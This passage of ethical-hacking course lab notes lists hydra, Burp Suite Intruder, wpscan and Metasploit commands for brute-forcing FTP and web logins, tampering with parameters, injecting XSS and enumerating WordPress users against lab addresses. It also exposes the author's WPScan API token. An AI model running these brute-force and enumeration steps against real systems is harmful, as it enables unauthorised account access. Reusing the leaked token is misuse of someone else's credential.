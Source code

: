 - nmap -p 21 \[IP\]

- **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10**

**Module 14: Hacking Web Applications**

**Lab2-Task1: Perform a Brute-force Attack using Burp Suite**

- Set proxy for browser: 127.0.0.1:8080

- Burpsuite

- Type random credentials

- capture the request, right click-&gt;send to Intrucder

- Intruder-&gt;Positions

- Clear \$

- Attack type: Cluster bomb

- select account and password value, Add \$

- Payloads: Load wordlist file for set 1 and set 2

- start attack

- **filter status==302**

- open the raw, get the credentials

- recover proxy settings

**Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web
Applications**

- Log in a website, change the parameter value (id )in the URL

- Conduct a XSS attack: Submit script codes via text area

**Lab2-Task5: Enumerate and Hack a Web Application using WPScan and
Metasploit**

- **wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads
  > --url** **http://10.10.10.16:8080/CEH** **--plugins-detection
  > aggressive --enumerate u**

  - **--enumerate u: Specify the enumeration of users**

  - **API Token: Register at**
    > [**https://wpscan.com/register**](https://wpscan.com/register)

  - **Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**

- service postgresql start

- msfconsole

- **use auxiliary/scanner/http/wordpress_login_enum**

- show options

- **set PASS_FILE password.txt**
